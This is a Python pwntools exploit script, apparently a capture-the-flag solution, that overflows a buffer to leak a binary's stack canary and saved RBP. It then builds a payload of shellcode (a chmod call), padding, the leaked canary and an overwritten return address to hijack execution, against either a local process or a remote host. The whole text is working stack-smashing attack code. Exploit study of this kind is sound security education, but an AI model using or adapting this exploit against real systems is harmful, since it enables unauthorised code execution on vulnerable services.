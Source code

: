 ```python
backdoor = b"REPEAT "
padding_size = 0x58
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
padding_to_ret = b"".ljust(0x8, b"A")
fixed_offset = 0x1150


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        target.recvuntil(backdoor)

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target, padding_size):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_size - shellcode_length, b"A")
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode
```